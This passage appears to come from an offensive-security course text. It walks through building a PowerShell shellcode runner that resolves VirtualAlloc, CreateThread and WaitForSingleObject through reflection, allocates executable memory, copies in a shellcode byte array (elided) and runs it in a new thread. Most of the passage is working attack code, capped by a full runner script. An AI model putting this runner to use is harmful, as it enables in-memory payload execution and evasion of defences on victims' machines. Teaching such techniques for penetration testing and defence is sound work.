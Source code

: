 ```
$VirtualAllocAddr = LookupFunc kernel32.dll VirtualAlloc
$VirtualAllocDelegateType = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegateType)
$VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
```

> Listing 27 - Resolving and calling VirtualAlloc through reflection

This code uses our _LookupFunc_ and _getDelegateType_ functions to allocate a memory buffer. While the code works, we could optimize it and condense it to remove unneeded variables.

This optimized version embeds the calls to _LookupFunc_ and _getDelegateType_ in the call to _GetDelegateForFunctionPointer_:

```
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
```

> Listing 28 - Condensed version of resolving and calling VirtualAlloc

Next, we'll generate the shellcode in ps1 format and copy it using the .NET _Copy_ method:

```
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
```

> Listing 29 - .NET Copy method

The shellcode and copy operation are identical to the _Add-Type_ version of our shellcode runner. Next, we can create a thread and call _WaitForSingleObject_ to block PowerShell from terminating.

In this condensed syntax, _VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_ are all resolved and called exactly as they were before.

Here's the full shellcode runner with the omitted _LookupFunc_ and _getDelegateType_ functions:

```
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```
